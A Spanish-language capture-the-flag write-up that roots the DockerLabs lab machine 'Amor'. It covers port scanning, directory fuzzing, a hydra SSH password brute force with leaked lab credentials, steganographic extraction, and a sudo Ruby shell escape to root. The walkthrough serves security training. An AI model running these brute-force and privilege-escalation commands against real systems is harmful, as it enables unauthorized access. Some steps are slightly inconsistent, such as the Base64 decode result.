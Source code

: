 # 📄 Informe Técnico – Máquina Vulnerable **Amor** (DockerLabs)

**Nivel:** Fácil
**Autor:** AlejandroSL
**Fecha:** 10/05/2025

   ![](/Amor/Imagenes/Logo.png)

---

## 📌 Objetivo

Acceder a la máquina vulnerable **Amor**, identificar los servicios expuestos, obtener acceso mediante explotación remota y realizar escalada de privilegios hasta obtener acceso como **root**.

---

## 🔧 Despliegue de la máquina

1. Descargamos la máquina desde DockerLabs y la descomprimimos:

   ```bash
   unzip amor.zip
   sudo bash auto_deploy.sh amor.tar
   ```

   ![](/Amor/Imagenes/Despliegue.jpeg)

2. Verificamos la conectividad mediante `ping`:

   ```bash
   ping -c1 172.17.0.2
   ```

   ![](/Amor/Imagenes/Ping.jpeg)

---

## 🔍 Escaneo de Puertos

1. Escaneo rápido de puertos abiertos:

   ```bash
   sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
   ```

   Resultado: Puertos **22 (SSH)** y **80 (HTTP)** abiertos.
   ![](/Amor/Imagenes/Puerto.jpeg)

2. Extracción de puertos desde el archivo generado:

   ```bash
   extractPorts allPorts.txt
   ```

3. Escaneo profundo con scripts y detección de versiones:

   ```bash
   nmap -sC -sV -p 22,80 172.17.0.2 -oN target.txt
   ```

   ![](/Amor/Imagenes/Servicios.jpeg)

---

## 🌐 Enumeración Web

Accedimos a la web en `http://172.17.0.2` y observamos varias notificaciones que revelaban nombres de usuarios: **Carlos** y **Carlota**.
![](/Amor/Imagenes/Pagina.jpeg)

---

## 🪓 Fuzzing de directorios

Usamos `gobuster` para buscar directorios ocultos:

```bash
gobuster dir -u http://172.17.0.2/javascript/jquery/ \
  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt \
  -t 20 -add-slash -b 403,404 -x php,html,txt
```

Resultado: Se encontró el directorio **/javascript/jquery/jquery**
![](/Amor/Imagenes/Gobuster.jpeg)
![](/Amor/Imagenes/Gobusterdir.jpeg)

---

## 🔐 Fuerza Bruta SSH

Se intentaron múltiples combinaciones de usuarios. Finalmente, usando `hydra` se logró acceder al servicio **SSH** como el usuario **carlota**:

```bash
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 4
```

Credenciales válidas:

* **Usuario:** carlota
* **Contraseña:** babygirl
  ![](/Amor/Imagenes/Hydra.jpeg)

---

## 🖥️ Acceso a la máquina

Ingresamos exitosamente mediante SSH:

```bash
ssh carlota@172.17.0.2
```

![](/Amor/Imagenes/SSH.jpeg)

---

## 🕵️ Revisión de archivos y análisis de imagen

Dentro del directorio `/home/carlota/Desktop/fotos/vacaciones/` encontramos un archivo `imagen.jpg`. Lo transferimos a nuestra máquina con un servidor web:

En la máquina vulnerable:

```bash
python3 -m http.server 8080
```

En nuestra máquina atacante:

```bash
wget http://172.17.0.2:8080/imagen.jpg
```

![](/Amor/Imagenes/Descarga.jpeg)

Revisamos los metadatos de la imagen:

```bash
exiftool imagen.jpg
```

![](/Amor/Imagenes/Metadatos.jpeg)

---

## 🧪 Esteganografía y Decodificación

Usamos `steghide` para extraer información oculta en la imagen:

```bash
steghide extract -sf imagen.jpg
```

> No se solicitó contraseña (se presionó Enter).

Se extrajo un archivo `secret.txt` que contenía una cadena en **Base64**. La decodificamos:

```bash
echo 'c2VzbGFjYXNhZGVwaW55cG9u' | base64 -d > script.sh
cat script.sh
```

Contenido extraído:
**eslacasadepinypon**
![](/Amor/Imagenes/datos.jpe)

---

## 🧨 Escalada de Privilegios

Ejecutamos `sudo -l` para ver los comandos disponibles con permisos de **sudo**:

```bash
sudo -l
```

Se nos permite ejecutar este comando **sin contraseña**:

```bash
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
```

Esto nos da una **shell como root**:

```bash
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
```

![](/Amor/Imagenes/root.jpeg)

---

## ✅ Conclusión

* Se identificaron servicios clave mediante escaneo de puertos.
* Se encontraron usuarios desde la web y se obtuvo acceso por fuerza bruta SSH.
* Se analizó una imagen que contenía una cadena Base64 con una palabra clave importante.
* Finalmente, se logró escalar privilegios a **root** explotando permisos `sudo` sobre un binario seguro mal configurado.
